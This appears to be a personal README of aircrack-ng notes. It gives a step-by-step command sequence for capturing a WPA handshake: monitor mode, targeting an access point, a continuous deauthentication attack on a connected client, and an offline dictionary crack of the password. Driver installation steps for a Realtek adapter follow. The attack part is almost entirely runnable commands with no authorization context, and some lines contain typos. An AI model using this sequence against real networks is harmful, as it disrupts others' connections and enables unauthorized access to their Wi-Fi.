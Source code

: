 # aircrack-ng-

https://www.youtube.com/watch?v=77cWBybyvV4
// this is for quadcomm adapter

iwconfig
ifconfig
airmon-ng check kill
airmon-ng start wlan0
iwconfig
airodump-ng wlan0mon
ctri c
airodump-ng -cX -w capture -d MACADD wlan0mon 
new root
aireplay-ng --deauth 0 -a MACADD -c DEVICEMACADD wlan0mon 
wait for WPA hadshake then stop deauth

ls
wireshark capture-X.cap 
-filter for eapol
airmon-ng stop wlan0mon 
iwconfig 
aircrack-ng capture-X.cap -w /usr/share/dict/words

///////////////////////////////////////////////////////////////////////////////////////////////////////////////

https://github.com/aircrack-ng/rtl8188eus
//instalation 

    sudo apt update
    sudo apt upgrade
    sudo apt-get dist-upgrade
    reboot
    sudo apt-get install linux-headers-$(uname -r)
    sudo apt install bc
    sudo apt-get install build-essential
    sudo apt-get install libelf-dev
    sudo apt install dkms
    sudo rmmod r8188eu.ko
    git https://github.com/drygdryg/rtl8188eus (This works for me joy)
    cd rtl8188eus
    sudo -i
    echo 'blacklist r8188eu'|sudo tee -a '/etc/modprobe.d/realtek.conf'
    reboot
    cd rtl8188eus
    sudo make && make install
    reboot



// enter monitor mode

    $ sudo airmon-ng check kill
    $ sudo ip link set <interface> down
    $ sudo iw dev <interface> set type monitor

//enter manage mode 
    
    $ sudo iw dev <interface> set type managed
    service NetworkManager restart


 ////////////////////////////////////////////////////////////////////////////////////////////////////////////////
 

    
    To remove locked files 
    chmod a+rwx <filename>
